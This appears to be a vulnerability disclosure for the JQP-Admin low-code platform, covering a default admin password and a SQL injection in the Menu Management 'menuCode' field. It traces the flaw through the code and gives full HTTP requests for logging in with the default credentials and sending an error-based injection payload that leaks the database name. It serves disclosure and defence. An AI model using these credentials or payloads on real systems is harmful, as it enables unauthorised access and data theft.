









## **Vulnerability Description**

JQP-Admin Low-Code Development Platform (master branch) contains a SQL injection vulnerability in the "Add/Edit" function of "System Management -> Menu Management". When processing form submissions, the system fails to securely sanitize the user-controllable **Menu Code (`menuCode`)** field. At `CommonController.java` (around line 147), the code directly concatenates the value from the request body into the SQL statement using `'${menuCode}'`. This concatenated statement is then passed to `MysqlJdbcServiceImpl.isRepeat` (around line 294) for Velocity template evaluation, and is ultimately executed as-is by `jdbcTemplate.query(sql, ...)` in `MysqlJdbcDaoImpl.find` (around line 129). An attacker can exploit this by crafting a malicious `menuCode` parameter, utilizing error-based injection methods to extract sensitive database information, resulting in severe data leakage.

Github地址：https://github.com/TedLiangHK/jqp-admin

Gitee地址：https://gitee.com/dushan1980/jqp-admin

## **Vulnerability Analysis**

**1. Default Weak Password Flaw**

The system contains a default administrator weak password (`admin` / `1`). Since the system does not enforce password modification upon first login or initial configuration, an attacker can directly use this weak password to log into the backend and gain administrative privileges. This provides a valid authenticated session (Session/Cookie) for subsequent deeper attacks (such as exploiting SQL injection).

**2. SQL Injection Vulnerability (Root Cause)**

A SQL injection vulnerability exists in the "Add/Edit" form submission function of "System Management -> Menu Management". The `menuCode` parameter passed from the frontend is fully user-controllable. In `CommonController.java` (around line 147), the code directly concatenates it into the SQL statement using `'${menuCode}'`. This is then parsed without escaping by the Velocity template engine in `MysqlJdbcServiceImpl.java` (around line 294). Finally, the concatenated and evaluated malicious SQL is executed as-is by `jdbcTemplate.query(sql, ...)` in `MysqlJdbcDaoImpl.java` (around line 129).

com.jqp.admin.page.controller.CommonController#saveOrUpdate方法






com.jqp.admin.db.service.impl.MysqlJdbcServiceImpl#isRepeat方法



com.jqp.admin.db.service.impl.MysqlJdbcDaoImpl#find方法



调用链路



## **Steps to Reproduce**

**Step 1: Login with Default Weak Credentials**

Access the JQP-Admin login page, enter the default weak credentials (`admin` / `1`), and click login to successfully enter the backend management dashboard.





```
POST /admin/user/login HTTP/1.1
Host: localhost:8080
Content-Length: 38
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Windows"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/admin/lyear_pages_login.html?t=1794575525079
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=875DD67F213BD56CD18CC15FAF0F3D9E
Connection: keep-alive

username=admin&password=1&captcha=gczz
```

**Step 2: Locate and Intercept the Form Submission Request**

Navigate to the "System Management -> Menu Management" page in the left sidebar. Click the "Add" or "Edit" button. After filling in the relevant information, click "Save" and use a proxy tool like Burp Suite to intercept the HTTP request.

Observe that the request is `POST /admin/common/sysMenuForm/saveOrUpdate`, and the request body contains the `menuCode` parameter.



**Step 3: Craft the Payload and Verify the Injection Result**

Modify the `menuCode` parameter in the request body to the MySQL error-based injection payload: `x' OR extractvalue(1,concat(0x7e,database()))--`, and send the request. The server response contains the MySQL error message `XPATH syntax error: '~jqp~'`, successfully reflecting the current database name and confirming the SQL injection vulnerability in the `menuCode` parameter.



```
POST /admin/common/sysMenuForm/saveOrUpdate HTTP/1.1
Host: localhost:8080
Content-Length: 171
sec-ch-ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Content-Type: application/json
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/crud/menu?v=1794622193945
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=3375A5CE96E2AE1C764DA78412DDC477; token=ea04f04b-e013-40e9-b83a-83c592cbf5bb
Connection: keep-alive

{"id":"","parentId":"177","menuCode":"x' OR extractvalue(1,concat(0x7e,database()))-- ","menuName":"测试","menuType":"2","url":"","seq":1,"icon":"","whetherButton":"NO"}
```
